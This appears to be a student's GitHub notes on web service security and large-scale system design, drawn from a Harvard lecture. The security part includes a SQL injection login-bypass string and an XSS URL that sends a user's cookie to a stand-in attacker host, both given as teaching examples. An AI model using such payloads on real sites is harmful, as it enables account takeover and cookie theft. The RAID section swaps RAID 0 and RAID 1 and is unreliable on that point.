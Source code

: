 # Security
Writing notes for learning how to build a secure web service. Discussing web server security features.

## Key Questions
- What happens if the file are not encypted?
  - FTP to SFTP
  - HTTP to HTTPS
  - telnet vs SSH
  
  User sessions or important information might sniffs by hackers. For example, people can see sessions in the header of HTTP without using SSL. Then the bad guys will be able to pretend you in the system.

- How about running the programs in different user, instead of root?
  
  - For example, using httpd to run Apache. The bad guy could only use httpd to break down Apache, and the file httpd owns.
  - Using a group to control the read access, sperate the update command for unique users.

    
## Key Threats
- ***User privilege***
  
  Try to be aware of the initial functions that the program users can execute, and keep the privilege on single user. 
	
  - For example, php web server are able to execute files by echo the name of the file. So, we should manupilating in our own code, not to enable some initial function that might cause damage, like sql injections or giving important details.
    
    Something buggy happens, like the bad guy try to delete files, they only could delete the user's only.
    
- ***Stealing info from response***

  Sensitive information should not be seen, etc: version, user tokens.
  
  - Make sure your program in your settings will not leak any critical details.

- ***Session Hijacking***
  - Packet Sniffing
  - Session Fixation (guess the session combinations)
  - XSS (Cross-Site Scripting)
  
  How can we mitigate these threats?
  - Session Encypted - SSL using public cryptography
    
    Buying a domain with SSL from godaddy. We get two unique key. A public key to encrypt the data, which could publicly spread to others. On the other hand, the private key on our server is the only key to decrypt the data.

- ***SQL Injection***
  - Remember to call the protecting functions like mysql real_escape_string() in PHP. It prevents special symbols, like semicolon;. They might even drop your table, if you ignore this risk. 

  - Down below is an bad mysql code, which might give the bad guys a chance to cause damage to your system.

	
  	"SELECT uid From users WHERE username = '%s' AND password='%s'", ...
    
    Giving password %s=123' OR '1'='1'. This case will let the user login without using the real password, since it will return true.
  
  - Django server by using orm will be much safer, or using Python Database API. Both of them have inplement escaping special symbols.
  	
- ***CSRF / XSS (Cross-Site Scripting)***
  
  CSRF
  - Bad guys might use your domain to let people clicking unwittingly, or even trigger simply by visit the bad website. For example, they embed a buying link, which cause the users kept buying specific stocks.
  
  - How do we prevent this happens?
    - Create identifier for some key functions, or we make the action more complex by using POST.
    
  XSS
  - Bad guys might able to implement script to redirect and get users cookie by using same domain as your. For example, provide a web injection by using script tag in there webs down below.
  
	www.eshop.com/?foo=<sript>documemnt.location="badguy.com/..."</srcipt>
    
    The user of eshop's cookie will automatically send to badguys.com, which is a tragety.

# Scalability
* Writing notes for learning how to design a large Scale System.
* Compare feartures, understand there pros and cons.

## Senario

> Before we started, try to imagine the product that your going to build and maintain. For example, one day the 5G has become pervasive, the user device will be dramatically increase. People can easily enter your website by phones, watches, bags, and even on their autonomous vehicle.

## Key Feature
- Load balancer 

  We let the black box balancer do the data routing to the backend server S1, S2... (ex. Load balancing with BIND DNS server -> return different IP address)
    
  How to decide whom we should send the request to?
  1. File type according to url
  2. Server load
  3. Sequence (Round Robin)
    
    For instance, using nginx to set the routing round Robin [NGINX RR Setting](https://www.nginx.com/resources/glossary/round-robin-load-balancing/)

  - Software: NGINX, ELB, HAProxy
  - Hardware: Barracuda, Cisco, Citrix
- Caches
  
  Our operating system might cache the response of the request. There might not be another DNS request every time we click a website. 

  - ***DNS TTL (time-to-live)*** is the expiration time for a DNS response. For example, power users often will have a long TTL that assign them to the same backend server, instead of reschedule them to a another backend server.
  - Consider a ***session state server***. Otherwise, for instance a php session superglobal load balancer store sessions on single machine. This will cause problem when assigning same user to other machines.
  
  - Etc. Apache - HTML, MYSQL cache, Memcached (Redis)

  Q. What if the caches goes down? What should we prepare for this?
    - A. Using RAID to recover data lost.
    - B. Using multiple server for sharing data
      - FC, iSCSI (using internet protocal), MySQL, NFS

  Q. What information should we store in the user side cache (cookies)?
    - Avoid reveal public IP. Try to encypt the important info.

  Q. What will we have to do if we run out of cache?
    - Garbage Collection (expire object)
    
- RAID (Redundant array of independent disks)
  - RAID 1
    
    ***Stiping data*** though two raids. Split datas into two disk, and try to write in simontaneously, which produce great efficiency.
    
  - RAID 0 
    
    Mirror the data in two hard drives. Rebuild when one goes down.
    
  - RAID 10
    
    Combining Raid 1 and Raid 0, using four hard drives.

  - RAID 5 
    
    More versatile. N drives but only one is for redundancy, which will only sacrificing 1/n of the RAID system. Able to recover any one drives dies.
    
  - RAID 6
  
    Able to recover any two drives dies, with one more redundancy hard drive.

- DataBase
	
    - MYSQL compare with different [storage engines](https://ssorc.tw/663/mysql-%E7%9A%84%E5%90%84%E7%A8%AE-storage-engines-%E5%84%B2%E5%AD%98%E5%BC%95%E6%93%8E%E6%AF%94%E8%BC%83/)
		
        - MyISAM
        	
            No Storage limit, and with a table Locking granularity.
        - InnoDB
        	
            Row lock, enable transactions.
          
        - Memory
        - Archive
    		
            Compressed data, suitable for storing log files.
        - Cluster/NDB

![Storage Engines](https://i.imgur.com/fGG5dtt.png)

# Referrence
- 2012 Hardvard Web Development - David Malan
